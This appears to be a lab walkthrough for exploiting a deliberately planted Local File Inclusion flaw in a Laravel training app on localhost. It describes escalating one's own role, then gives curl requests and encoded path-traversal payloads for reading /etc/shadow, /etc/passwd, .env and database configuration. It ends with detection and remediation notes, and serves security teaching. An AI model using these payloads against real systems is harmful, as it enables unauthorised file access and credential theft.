 # LFI Exploitation Examples

This document provides examples of how to exploit the Local File Inclusion (LFI) vulnerability in the lab environment.

## Prerequisites

1. **Role Escalation**: First, you need to escalate your privileges by editing your user profile and changing your role to "Administrador" or "Programador".

2. **Access the System Menu**: Navigate to the admin panel and access the "Sistema" menu.

## Exploitation Methods

### Method 1: Web Interface
1. Go to `http://localhost:8000/admin/system/file`
2. Enter file paths in the input field:
   - `/etc/passwd` - User account information
   - `/etc/shadow` - Encrypted password information
   - `/var/log/apache2/access.log` - Apache access logs
   - `/proc/version` - Kernel version
   - `/etc/hosts` - Hostname resolution

### Method 2: Direct API Access
Use the JSON endpoint for programmatic access:

```bash
# Read /etc/passwd
curl "http://localhost:8000/admin/system/log?file=/etc/passwd"

# Read Apache logs
curl "http://localhost:8000/admin/system/log?file=/var/log/apache2/access.log"

# Read system information
curl "http://localhost:8000/admin/system/log?file=/proc/version"
```

### Method 3: Path Traversal
Try different path traversal techniques:

```bash
# Standard path
http://localhost:8000/admin/system/file?file=/etc/passwd

# With encoding
http://localhost:8000/admin/system/file?file=..%2F..%2F..%2Fetc%2Fpasswd

# Double encoding
http://localhost:8000/admin/system/file?file=..%252F..%252F..%252Fetc%252Fpasswd
```

## Common Files to Read

### System Files
- `/etc/passwd` - User accounts
- `/etc/shadow` - Password hashes
- `/etc/hosts` - Hostname mapping
- `/etc/issue` - System banner
- `/proc/version` - Kernel version
- `/proc/cpuinfo` - CPU information

### Log Files
- `/var/log/apache2/access.log` - Apache access logs
- `/var/log/apache2/error.log` - Apache error logs
- `/var/log/nginx/access.log` - Nginx access logs
- `/var/log/nginx/error.log` - Nginx error logs
- `/var/log/auth.log` - Authentication logs

### Application Files
- `/var/www/html/.env` - Environment variables
- `/var/www/html/storage/logs/laravel.log` - Laravel logs
- `/var/www/html/config/database.php` - Database configuration

## Detection in Logs

The LFI attempts will be visible in:
- Laravel logs: `storage/logs/laravel.log`
- Web server logs: `/var/log/apache2/access.log` or `/var/log/nginx/access.log`
- Application logs: Check the admin panel for access attempts

## Security Implications

This vulnerability allows attackers to:
1. Read sensitive system files
2. Extract user credentials
3. Gather system information
4. Access application configuration
5. Read log files for reconnaissance

## Remediation (Not for Lab)

In a real environment, this should be fixed by:
1. Implementing proper input validation
2. Using allowlists for file paths
3. Restricting file access to specific directories
4. Implementing proper access controls
5. Using file inclusion functions safely 